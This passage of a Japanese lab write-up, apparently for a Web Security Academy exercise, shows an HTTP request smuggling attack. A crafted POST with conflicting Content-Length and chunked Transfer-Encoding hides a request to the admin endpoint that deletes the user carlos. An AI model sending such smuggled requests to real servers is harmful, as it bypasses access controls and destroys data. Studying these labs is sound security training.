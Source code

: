 ![](./images/README_231016_121939.png)

こうすることで、Back-endが理解するであろうリクエストは、以下のようになるはずです

```text
GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=P
```

管理画面からユーザ削除をするには、`/admin/delete?username=calos`に対してGETリクエストを送れば良さそうなのであとはやるだけです。

```text
POST / HTTP/1.1
Host: 0a570045043ffbdd81e87aea00b000ee.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 138
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=
```
